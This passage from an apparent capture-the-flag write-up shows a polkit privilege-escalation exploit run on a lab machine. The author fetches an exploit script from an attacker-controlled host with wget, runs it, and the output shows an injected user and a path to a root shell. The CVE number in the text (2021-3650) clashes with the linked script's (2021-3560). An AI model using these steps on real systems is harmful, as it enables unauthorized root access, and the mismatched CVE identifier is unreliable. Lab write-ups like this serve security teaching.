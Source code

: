 
`pkexec` isn’t set as SetUID, and thus, exploiting it will only return
execution as the user that runs it, which isn’t useful.

### Polkit CVE

CVE-2021-3650 is a vulnerability in polkit discovered by Keven Backhouse of
the [GitHub Security Lab](https://securitylab.github.com/). This attack is a
timing attack against polkit, and by killing the process at the right time, it
ends up skipping the authentication and allow actions such as creating an
account with `sudo` privs and setting the password..

The author of Paper happens to have a
[script](https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation)
for this exploit on their GitHub. I’ll save a copy on my VM, and start a
webserver in that directory (`python3 -m http.server 80`). Then I’ll fetch the
script with `wget` to Paper:

    
    
    [dwight@paper shm]$ wget 10.10.14.6/cve-2021-3650.sh
    --2022-06-05 15:25:11--  http://10.10.14.6/cve-2021-3650.sh
    Connecting to 10.10.14.6:80... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 9627 (9.4K) [text/x-sh]
    Saving to: ‘cve-2021-3650.sh’
    
    cve-2021-3650.sh                                     100%[=================================>]    9.40K  --.-KB/s    in 0.005s  
    
    2022-06-05 15:25:11 (1.91 MB/s) - ‘cve-2021-3650.sh’ saved [9627/9627]
    

Now I just run it:

    
    
    [dwight@paper shm]$ bash cve-2021-3650.sh
    
    [!] Username set as : secnigma
    [!] No Custom Timing specified.
    [!] Timing will be detected Automatically
    [!] Force flag not set.
    [!] Vulnerability checking is ENABLED!
    [!] Starting Vulnerability Checks...
    [!] Checking distribution...
    [!] Detected Linux distribution as "centos"
    [!] Checking if Accountsservice and Gnome-Control-Center is installed
    [+] Accounts service and Gnome-Control-Center Installation Found!!
    [!] Checking if polkit version is vulnerable
    [+] Polkit version appears to be vulnerable!!
    [!] Starting exploit...
    [!] Inserting Username secnigma...
    Error org.freedesktop.Accounts.Error.PermissionDenied: Authentication is required
    [+] Inserted Username secnigma  with UID 1005!
    [!] Inserting password hash...
    [!] It looks like the password insertion was successful!
    [!] Try to login as the injected user using su - secnigma
    [!] When prompted for password, enter your password 
    [!] If the username is inserted, but the login fails; try running the exploit again.
    [!] If the login was successful,simply enter 'sudo bash' and drop into a root shell!
    